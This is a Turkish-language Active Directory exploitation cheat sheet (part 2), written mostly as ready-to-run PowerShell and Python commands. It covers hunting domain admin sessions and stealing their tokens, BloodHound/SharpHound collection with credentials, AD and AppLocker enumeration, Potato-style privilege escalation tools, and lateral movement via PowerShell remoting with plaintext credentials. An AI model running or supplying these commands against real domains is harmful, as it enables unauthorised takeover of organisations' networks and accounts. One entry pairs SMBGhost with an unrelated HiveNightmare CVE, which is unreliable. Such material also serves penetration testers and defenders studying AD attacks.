 # Active Directory Exploitation Cheat Sheet - Bölüm 2

## Kullanıcı Avı

- **Makinede Yerel Admin Yetkisi Bulunan Kullanıcıları Listele:**  
  `Find-LocalAdminAccess -Verbose`

- **Domain'deki Yerel Adminleri Listele:**  
  `Find-DomainLocalGroupMember -Verbose`

- **Domain Admin veya Belirli Kullanıcının Oturumu Olan Bilgisayarları Bul:**  
  ```powershell
  Find-DomainUserLocation | Select-Object UserName, SessionFromName
  ```

- **Admin Yetkisini Doğrulama:**  
  `Test-AdminAccess`

### Kullanıcı Avı ile Domain Admin Yetkisi Alma:
1. Bir makinede yerel admin yetkisine sahipsiniz.  
2. Domain Admin bu makinede oturum açmış.  
3. Token'ını çalıp kendinizi taklit ediyorsunuz.  
4. **Sonuç:** Domain Admin yetkileri!

## AD Modülü Kullanımı

- **Mevcut Domain Bilgisi Al:**  
  `Get-ADDomain`

- **Diğer Domainleri Keşfet:**  
  `Get-ADDomain -Identity <Domain>`

- **Domain SID Bilgisi Al:**  
  `Get-DomainSID`

- **Domain Controller Bilgisi Al:**  
  ```powershell
  Get-ADDomainController
  Get-ADDomainController -Identity <DomainName>
  ```

- **Domain Kullanıcılarını Listele:**  
  ```powershell
  Get-ADUser -Filter * -Identity <user> -Properties *
  Get-ADUser -Filter 'Description -like "*wtver*"' -Properties Description | select Name, Description
  ```

- **Domain Bilgisayarlarını Listele:**  
  ```powershell
  Get-ADComputer -Filter * -Properties *
  Get-ADGroup -Filter *
  ```

- **Domain Trust İlişkilerini Listele:**  
  ```powershell
  Get-ADTrust -Filter *
  Get-ADTrust -Identity <DomainName>
  ```

- **Forest Trust İlişkilerini Listele:**  
  ```powershell
  Get-ADForest
  Get-ADForest -Identity <ForestName>
  (Get-ADForest).Domains
  ```

- **Yerel AppLocker Politikasını Listele:**  
  ```powershell
  Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
  ```

## BloodHound Kullanımı

### Uzak BloodHound

- **BloodHound Python Deposunu Kullanın veya Kurulum Yapın:**  
  `pip3 install bloodhound`

- **BloodHound Kullanımı:**  
  ```bash
  bloodhound-python -u <UserName> -p <Password> -ns <Domain Controller's Ip> -d <Domain> -c All
  ```

### Yerel BloodHound

- **Exe Ingestor Kullanımı:**  
  ```powershell
  .\SharpHound.exe --CollectionMethod All --LdapUsername <UserName> --LdapPassword <Password> --domain <Domain> --domaincontroller <Domain Controller's Ip> --OutputDirectory <PathToFile>
  ```

- **PowerShell Modülü Ingestor Kullanımı:**  
  ```powershell
  . .\SharpHound.ps1
  Invoke-BloodHound -CollectionMethod All --LdapUsername <UserName> --LdapPassword <Password> --OutputDirectory <PathToFile>
  ```

## Faydalı Keşif Araçları

- **ldapdomaindump:** LDAP üzerinden bilgi toplama.
- **adidnsdump:** Kimlik doğrulaması yapılmış kullanıcılar için entegre DNS bilgisi toplama.
- **ACLight:** Yetkili hesapları keşfetmek için gelişmiş bir araç.
- **ADRecon:** Detaylı Active Directory keşif aracı.

## Yerel Yetki Yükseltme

- **Windows Privilege Escalation CheatSheet:** Yerel yetki yükseltme yöntemleri.
- **Juicy Potato:** SeImpersonate veya SeAssignPrimaryToken yetkilerini kullanarak System taklidi yapma.  
  📷 Yalnızca Windows Server 2016 ve Windows 10'un 1803 yamasına kadar çalışır.
- **Lovely Potato:** Otomatik Juicy Potato.  
  📷 Yalnızca Windows Server 2016 ve Windows 10'un 1803 yamasına kadar çalışır.
- **PrintSpoofer:** PrinterBug kullanarak System taklidi yapma.  
  📷 Windows Server 2019 ve Windows 10 için uygundur.
- **RoguePotato:** Gelişmiş Juicy Potato.  
  📷 Windows Server 2019 ve Windows 10 için uygundur.
- **Token Yetkilerini Suistimal Etme.**
- **SMBGhost (CVE-2020-0796):**  
  PoC: CVE-2021-36934 (HiveNightmare/SeriousSAM)

### Faydalı Yerel Yetki Yükseltme Araçları

- **PowerUp:** Yanlış yapılandırmaları suistimal etme.
- **BeRoot:** Genel yetki yükseltme keşif aracı.
- **Privesc:** Genel yetki yükseltme keşif aracı.
- **FullPowers:** Bir hizmet hesabının yetkilerini geri yükleme.

## Lateral Movement

### PowerShell Remoting

- **Mevcut Makinede PowerShell Remoting'i Etkinleştirme:**  
  `Enable-PSRemoting`

- **Yeni PSSession Başlatma veya Oturum Açma:**  
  ```powershell
  $sess = New-PSSession -ComputerName <Name>
  Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
  ```

### PS Credentials ile Uzaktan Kod Çalıştırma

```powershell
$SecPassword = ConvertTo-SecureString '<Wtver>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\<WtverUser>', $SecPassword)
Invoke-Command -ComputerName <WtverMachine> -Credential $Cred -ScriptBlock {whoami}
```

### Bir PowerShell Modülünü İçeri Aktarma ve Fonksiyonlarını Uzaktan Çalıştırma

```powershell
Import-Module <ModulePath>
Invoke-Command -ComputerName <RemoteMachine> -ScriptBlock {<ModuleFunction>}
```
